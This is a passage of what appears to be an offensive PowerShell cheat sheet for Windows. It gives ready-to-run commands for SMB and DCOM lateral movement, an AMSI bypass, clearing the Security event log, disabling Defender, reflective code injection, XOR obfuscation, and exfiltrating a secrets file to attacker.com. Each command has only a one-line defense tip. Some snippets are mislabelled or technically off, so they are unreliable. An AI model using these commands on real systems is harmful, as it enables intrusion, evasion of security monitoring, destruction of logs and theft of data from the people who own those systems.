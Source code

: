 #### **SMB Exec**  
```powershell  
New-PSDrive -Name "X" -PSProvider FileSystem -Root "\\TARGET\C$" -Credential (Get-Credential)  
```  
- **Defense**: Block SMBv1 and enforce SMB signing.  

#### **DCOM Exploitation**  
```powershell  
$dcom = [System.Activator]::CreateInstance([Type]::GetTypeFromProgID("MMC20.Application", "TARGET")); $dcom.Document.ActiveView.ExecuteShellCommand("cmd.exe", $null, "/c malware.exe", "7")  
```  
- **Defense**: Disable DCOM via `dcomcnfg`.  

---

### **5. Defense Evasion**  
#### **AMSI Bypass**  
```powershell  
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)  
```  
- **Defense**: Enable **Tamper Protection** in Defender.  

#### **Clear Event Logs**  
```powershell  
wevtutil cl Security  
```  
- **Defense**: Forward logs to a SIEM (e.g., Splunk).  

#### **Disable Windows Defender**  
```powershell  
Set-MpPreference -DisableRealtimeMonitoring $true  
```  
- **Defense**: Enable **Tamper Protection**.  

#### **Process Hollowing**  
```powershell  
Invoke-ReflectivePEInjection -PEBytes $shellcode -ProcessID (Get-Process notepad).Id  
```  
- **Defense**: Use EDR tools to detect code injection.  

#### **Obfuscate with XOR**  
```powershell  
$encrypted = $shellcode | % { $_ -bxor 0xAA }; Invoke-Expression $encrypted  
```  
- **Defense**: Enable AMSI and script block logging.  

---

### **6. Data Exfiltration**  
#### **Exfil via HTTP**  
```powershell  
Invoke-WebRequest -Uri "http://attacker.com/exfil" -Method POST -Body (Get-Content C:\secrets.txt)  
```  
- **Defense**: Block outbound traffic to unknown domains.  

